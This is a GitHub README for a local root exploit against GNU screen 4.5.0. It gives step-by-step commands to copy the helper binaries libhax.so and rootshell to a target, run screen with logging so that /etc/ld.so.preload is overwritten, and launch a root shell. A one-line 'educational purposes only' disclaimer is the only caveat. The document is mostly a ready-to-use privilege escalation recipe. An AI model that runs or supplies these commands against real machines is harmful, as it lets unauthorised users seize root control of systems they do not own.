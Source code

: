 # GNU-Screen-4.5.0---Local-Privilege-Escalation

Screenroot Exploit

This repository contains the binary files libhax.so and rootshell, which are part of a local root exploit for screen version 4.5.0. This exploit abuses ld.so.preload overwriting to escalate privileges.
Disclaimer

This code is for educational purposes only. Do not use this exploit on systems you do not own or have explicit permission to test.
Requirements

    A machine with screen version 4.5.0 or a vulnerable version installed.
    Access to the target machine where you can transfer and execute the binaries.

Exploit Execution
1. Clone this repository

First, clone the repository to your local machine:

bash

git clone https://github.com/yourusername/screenroot-exploit.git
cd screenroot-exploit

2. Transfer the binaries

Copy the libhax.so and rootshell binaries to the target machine. You can use scp or another method of file transfer:

bash

scp libhax.so rootshell user@target:/tmp/

3. Set the appropriate permissions

On the target machine, change the permissions of the rootshell binary:

bash

chmod +x /tmp/rootshell

4. Exploit the vulnerability

To exploit the vulnerability, run the following commands on the target machine:

bash

cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"

This overwrites ld.so.preload, which allows the exploit to escalate privileges.
5. Trigger the exploit

Now, trigger the rootshell to obtain a root shell:

bash

/tmp/rootshell

You should now have root access.
